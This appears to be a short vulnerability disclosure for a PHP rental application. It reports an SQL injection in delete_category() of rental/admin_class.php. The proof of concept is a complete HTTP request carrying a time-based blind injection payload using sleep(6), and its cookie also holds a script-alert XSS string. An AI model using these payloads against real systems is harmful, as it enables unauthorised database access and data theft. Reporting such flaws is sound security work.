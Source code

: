 #### There is an SQL injection vulnerability in the delete_category() function of the file rental/admin_class.php.

**Code Analysis**

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/image-20240910165126593.png)

The variable `$id` was directly concatenated into the SQL statement without any filtering, allowing us to achieve SQL injection by controlling the id parameter.

**Code Analysis**

poc：

```http
POST /ajax.php?action=delete_category HTTP/1.1
Host: localhost:1110
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
X-Requested-With: XMLHttpRequest
Content-Length: 46
Origin: http://localhost:1110
Connection: keep-alive
Referer: http://localhost:1110/index.php?page=manage_categories
Cookie: Phpstorm-9dbbfc29=4d9b54b0-3f53-4e67-ae29-a3fb9f021bbb; user=admin; name=aa%3Cscript%3Ealert%28111%29%3C%2Fscript%3E; mail=86226999%40qq.com; url=http%3A%2F%2F127.0.0.1; XDEBUG_SESSION=13926; PHPSESSID=3hl2t1rg411rdcvu3pagf1cg5n
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Priority: u=0

id=10 or (select(123)from(select(sleep(6)))x)#
```

Seeing success delayed by 6 seconds.

![](https://raw.githubusercontent.com/gaorenyusi/img/master/img/image-20240910165132068.png)

